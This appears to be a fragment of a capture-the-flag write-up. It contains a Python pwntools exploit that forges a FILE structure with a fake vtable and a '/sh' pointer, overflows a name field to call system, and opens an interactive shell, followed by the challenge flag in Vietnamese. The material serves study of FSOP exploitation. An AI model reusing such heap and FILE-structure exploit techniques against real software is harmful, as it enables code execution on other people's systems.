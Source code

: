 ```python
file._IO_read_ptr = u32(b"/sh\x00") 
file._lock = 0x804b250
file.vtable = 0x804b178
binsh = 0x804b0e0

payload = b"A" * 0x20 + p32(binsh) + b"B" * 28 + bytes(file) + p32(system) * 21

sla(b"name: ", payload)

p.interactive() 
```

Flag của bài toán là `BKSEC{fSoP_1s_n0t_2_hArd_4_u_d4e2411f244126da3242265c90e10c46}`